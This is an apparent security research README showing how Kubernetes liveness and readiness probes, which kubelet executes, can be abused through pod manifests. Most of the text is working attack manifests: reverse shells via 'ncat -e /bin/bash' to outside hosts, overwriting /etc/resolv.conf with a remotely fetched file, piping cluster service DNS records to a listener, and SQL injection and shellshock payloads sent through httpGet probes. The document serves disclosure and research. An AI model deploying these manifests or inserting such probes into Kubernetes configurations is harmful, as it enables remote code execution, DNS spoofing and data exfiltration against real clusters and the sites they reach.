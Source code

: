 ## Exploiting applications using livenessProbes in Kubernetes
### Introduction
Startup, readiness, and liveness probes are very well described in the Kubernetes documentation. <br>
Kubelet uses these probes defined in the pod manifest to verify whether a pod is booting, ready to accept traffic and still alive.<br>
<br>
It is `kubelet` who actually executes the probes (and not the pod itself). <br>

There are different ways the probes are executed. <br>
- httpGet <br>
- exec <br>

The problems described here are considered 'as designed', as you should download containers from a trusted source according to the reviewers. <br>
The examples below shows that trusted sources of container images will not solve the problem, neither will image scanning. <br><br>
To prevent an attack from happening, it is mandatory to scan the Kubernetes pod and deployment manifests rigorously before deploying. <br>

### Examples1: Overwriting files on the pod filesystem - spoofing websites
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec15
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - curl
        - bd.kubiosec.tech:8080/host.txt
        - -o 
        - /etc/resolv.conf
      initialDelaySeconds: 5
      periodSeconds: 5
EOF
```

### Examples2: Installing applications the pod at deployment (BE PATIENT ... takes about 1min)
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec39
spec:
  containers:
  - name: liveness
    image: ubuntu
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    readinessProbe:
      exec:
        command:
        - apt-get 
        - update
      initialDelaySeconds: 5
      periodSeconds: 10
      timeoutSeconds: 60
    livenessProbe:
      exec:
        command:
        - apt-get 
        - install
        - -y
        - curl
      initialDelaySeconds: 60
      periodSeconds: 100
      timeoutSeconds: 60
EOF
```
Even better -- command chaining :-)
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec15
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - bash
        - -c
        - apt-get install ncat ; ncat -e /bin/bash bd.kubiosec.tech 8889 &
      initialDelaySeconds: 5
      periodSeconds: 5
EOF
```
SVC extraction
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec15
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - bash
        - -c
        - apt-get install -y ncat dnsutils; dig +noall +answer srv any.any.svc.cluster.local | nc 192.168.0.131 8889 
      initialDelaySeconds: 5
      periodSeconds: 5
EOF
```
### Examples3: Attacking http(s) endpoints using sql injection, XXS, ... 

```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness3
spec:
  containers:
  - name: liveness
    image: ubuntu
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      httpGet:
        host: www.xxxx.com
        path: /?'OR 1=1--
        port: 8080
        httpHeaders:
          - name: User-Agent
            value: xxxxxxxxx
EOF
```
```
22:03:04.693794 IP 192.168.0.131.50723 > 198.199.124.250.http-alt: Flags [P.], seq 1:116, ack 1, win 2053, options [nop,nop,TS val 2487114541 ecr 6590553], length 115: HTTP: GET /?'OR 1=1-- HTTP/1.1
  0x0000:  ac22 058e 607c 3c22 fb51 bf41 0800 4500  ."..`|<".Q.A..E.
  0x0010:  00a7 0000 4000 4006 3564 c0a8 0083 c6c7  ....@.@.5d......
  0x0020:  7cfa c623 1f90 8580 94d6 96d2 2b3d 8018  |..#........+=..
  0x0030:  0805 c39c 0000 0101 080a 943e 5b2d 0064  ...........>[-.d
  0x0040:  9059 4745 5420 2f3f 274f 5220 313d 312d  .YGET./?'OR.1=1-
  0x0050:  2d20 4854 5450 2f31 2e31 0d0a 486f 7374  -.HTTP/1.1..Host
  0x0060:  3a20 7777 772e 7261 6461 7268 6163 6b2e  :.www.radarhack.
  0x0070:  636f 6d3a 3830 3830 0d0a 5573 6572 2d41  com:8080..User-A
  0x0080:  6765 6e74 3a20 4d79 5573 6572 4167 656e  gent:.MyUserAgen
  0x0090:  740d 0a41 6363 6570 743a 202a 2f2a 0d0a  t..Accept:.*/*..
  0x00a0:  436f 6e6e 6563 7469 6f6e 3a20 636c 6f73  Connection:.clos
```
### Examples4 : Attacking http(s) endpoints using shellshock
```
apiVersion: v1
kind: Pod
metadata:
   name: radarhack-pod3
   labels:
      pod: radarhack
spec:
  containers:
  - name: radarhack
    image: docker.io/xxradar/naxsi5
    ports:
    - containerPort: 80
    livenessProbe:
      httpGet:
        host: www.radarhack.com
        path: /index.html?test=' or 1=1--
        port: 8080
        httpHeaders:
        - name: Custom-Header
          value: Awesome
        - name: X-Frame-Options
          value: () { :;};echo;/bin/nc -e /bin/bash 192.168.81.128 443
      initialDelaySeconds: 3
      periodSeconds: 3
 ```

### Conclusion
Many things are written on securely deploying applications on kubernetes. Keep in mind that all aspects need full attention. Generating and building Kubernetes manifest is also developping code.
